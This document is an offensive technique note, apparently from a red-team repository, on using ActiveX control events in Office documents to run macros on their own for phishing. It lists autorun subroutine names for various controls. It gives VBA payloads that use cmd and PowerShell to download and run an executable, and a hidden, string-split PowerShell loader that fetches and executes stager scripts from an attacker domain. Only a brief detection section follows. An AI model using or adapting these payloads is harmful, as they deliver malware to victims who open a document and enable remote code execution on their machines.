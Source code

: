 # ActiveX controls for macro execution




## Store Payload

* File -> Options -> Customize Ribbon -> Add developer tab
* Developer tab -> Controls -> Legacy Tools -> More Options
* More infos via here: http://www.greyhathacker.net/?p=948

## Autorun

| ActiveX Control | Subroutine name |
| --------------- | --------------- |
| Microsoft Forms 2.0 Frame | Frame1_Layout |
| Microsoft Forms 2.0 MultiPage | MultiPage1_Layout |
| Microsoft ImageComboBox Control, version 6.0 | ImageCombo21_Change |
| Microsoft InkEdit Control | InkEdit1_GotFocus |
| Microsoft InkPicture Control | InkPicture1_Painted, InkPicture1_Painting, InkPicture1_Resize |
| System Monitor Control | SystemMonitor1_GotFocus, SystemMonitor1_LostFocus |
| Microsoft Web Browser | WebBrowser1_BeforeNavigate2, WebBrowser1_BeforeScriptExecute, WebBrowser1_DocumentComplete, WebBrowser1_DownloadBegin, WebBrowser1_DownloadComplete, WebBrowser1_FileDownload, WebBrowser1_NavigateComplete2, WebBrowser1_NavigateError, WebBrowser1_ProgressChange, WebBrowser1_PropertyChange, WebBrowser1_SetSecureLockIcon, WebBrowser1_StatusTextChange, WebBrowser1_TitleChange |

## Execution

1. Uses InkEdit - a subroutine coming from an ActiveX control to execute its code.
2. downloading and executing an executable file using cmd.exe and PowerShell

### On disc

```vb
Sub InkEdit1_GotFocus()
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('https://trusted.domain/file.exe','file.exe');Start-Process 'file.exe'", vbNormalFocus)
End Sub
```

### In memory

```vb
Sub InkEdit1_GotFocus()
    Debugging
End Sub

Public Function Debugging() As Variant
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root\cimv2:Win32_Process")
    objProcess.Create "powe" & "rshell.e" & "xe" & " -ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c if ([IntPtr]::size -eq 4) {(new-object Net.WebClient).DownloadString('https://attacker.domain/stager1.ps1') | iex } else {(new-object Net.WebClient).DownloadString('https://attacker.domain/stager2.ps1') | iex}"
End Function
```

## Detection

* Notification: "Some active content has been disabled, Click here to find out more"
* On disc and in-memory execution


## Tools
########
########

```meta
ttp: T1000
internal: false
requirements: 
results: user, admin
description: Using ActiveX controls in order to trigger execution via phishing
```